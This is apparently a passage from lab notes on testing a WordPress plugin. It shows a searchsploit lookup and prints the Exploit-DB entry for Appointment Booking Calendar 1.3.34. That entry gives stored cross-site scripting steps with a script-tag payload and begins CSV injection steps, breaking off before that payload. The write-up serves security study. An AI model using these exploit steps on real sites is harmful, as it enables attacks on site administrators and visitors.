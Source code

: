 ![Lab - WordPress Plugin Stored XSS 2](./assets/08_cms_security_testing_lab_wordpress_plugin_stored_xss_2.png)

`searchsploit 'appointment booking calendar'`:
```
----------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                               |  Path
----------------------------------------------------------------------------- ---------------------------------
WordPress Plugin Appointment Booking Calendar 1.3.34 - CSV Injection📌         | php/webapps/48204.txt
----------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

`cp /usr/share/exploitdb/exploits/php/webapps/48204.txt ./`

`cat ./48204.txt`:
```
# Exploit Title: Wordpress Plugin Appointment Booking Calendar 1.3.34 - CSV Injection📌
# Google Dork: N/A
# Date: 2020-03-05
# Exploit Author: Daniel Monzón (stark0de)
# Vendor Homepage: https://www.codepeople.net/
# Software Link: https://downloads.wordpress.org/plugin/appointment-booking-calendar.zip
# Version: 1.3.34📌
# Tested on: Windows 7 x86 SP1
# CVE : CVE-2020-9371, CVE-2020-9372

----Stored Cross-Site-Scripting-------------------

1) In http://127.0.0.1/wordpress/wp-admin/admin.php?page=cpabc_appointments.php📌
2) Calendar Name=<script>alert(0)</script> and Update📌
3) Click in any of the other tabs

----CSV injection---------------------------------

1) First we create a new calendar (Pages, add new, booking calendar) and Publish it (we can now log out)
2) Then we go to the page and introduce data, and the payload:

```